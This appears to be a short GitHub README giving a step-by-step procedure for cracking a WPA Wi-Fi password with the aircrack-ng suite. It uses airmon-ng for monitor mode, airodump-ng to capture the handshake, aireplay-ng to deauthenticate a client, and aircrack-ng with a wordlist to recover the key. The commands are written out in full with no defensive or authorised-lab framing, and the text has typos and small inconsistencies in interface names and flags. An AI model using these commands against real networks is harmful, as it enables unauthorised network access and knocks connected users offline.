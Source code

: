 # Airkrack-ng
## What needed?

1. MAC Address of the Attacker
2. BSSID 
3. ESSID
4. Channel
5. Interface
6. Root acccess

## What to do?

### Get information about the Target

1. Get SSID from the Traget.
 > netdicover
 
 Search for IP Address common for Access Points/ Routers
 Mac AP: 00:11:6b:2d:9f:b7
 
2. Use airmon-ng to check for wifi interfaces

![image](https://user-images.githubusercontent.com/63262820/169005453-2e40bcd5-5bb8-4e8d-a191-6609c73f74ac.png)

3. Stop any useless interfaces with the command:
> airmon-ng stop "interface"

4. Start interface wlan0 in monitor mode and with de realated wlan channel:
>  airmon-ng start wlan0 9

![image](https://user-images.githubusercontent.com/63262820/169005722-cf7c77fd-35a8-41af-918f-7f8a86376acf.png)

5. Now the interface wlan0 is called wlan0mon


7. To confirm the interface is properly setup, enter:
> iwconfig

![image](https://user-images.githubusercontent.com/63262820/169006405-f3db4138-3622-4365-93b4-9324c1331d76.png)

8. Now capture the WPA Handshake.
> airodump-ng -c 9 --sbssid "AP MAC" -w psk wlan0mon

Wait until you see the message WPA Handshake

![image](https://user-images.githubusercontent.com/63262820/169010546-630a156f-b42b-4ab5-b78a-b6d20835a7ba.png)

9. Use aireplay-ng to deauthenticate the wireless client

aireplay-ng -0 1 -a "MAC AP" -c "MAC Client" ath0

![image](https://user-images.githubusercontent.com/63262820/169011963-b2ceb0fa-b1df-4601-8f64-62816362ed49.png)

10. Search for the latest psk file.
![image](https://user-images.githubusercontent.com/63262820/169012173-4777eae1-96dd-459f-add8-526d58b5bf66.png)

11. Run

> aircrack-ng -w password.lst -b "BSSID" psk*.cap

If successfull:

![image](https://user-images.githubusercontent.com/63262820/169012812-9d9353f7-2dd6-46ec-ae03-840bc93f475c.png)
